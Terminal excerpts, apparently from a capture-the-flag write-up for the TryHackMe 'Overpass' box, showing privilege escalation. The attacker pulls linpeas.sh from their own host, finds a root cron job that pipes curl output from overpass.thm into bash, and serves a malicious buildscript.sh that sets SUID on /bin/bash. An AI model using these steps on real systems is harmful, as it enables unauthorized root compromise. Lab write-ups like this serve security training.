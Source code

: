 ```
james@overpass-prod:~$ wget 10.8.106.222/linpeas.sh
--2020-10-05 15:42:40--  http://10.8.106.222/linpeas.sh
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 289937 (283K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh      100%[=====>] 283.14K  1.39MB/s    in 0.2s

2020-10-05 15:42:40 (1.39 MB/s) - ‘linpeas.sh’ saved [289937/289937]

james@overpass-prod:~$ ls
linpeas.sh  todo.txt  user.txt
james@overpass-prod:~$ chmod +x linpeas.sh
james@overpass-prod:~$ ./linpeas.sh
```

```
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

```
kali@kali:~/CTFs/tryhackme/Overpass$ mkdir -p www/downloads/src/
kali@kali:~/CTFs/tryhackme/Overpass$ cd www/
kali@kali:~/CTFs/tryhackme/Overpass/www$ echo -n 'chmod +s /bin/bash' > downloads/src/buildscript.sh
kali@kali:~/CTFs/tryhackme/Overpass/www$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.8.106.222 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
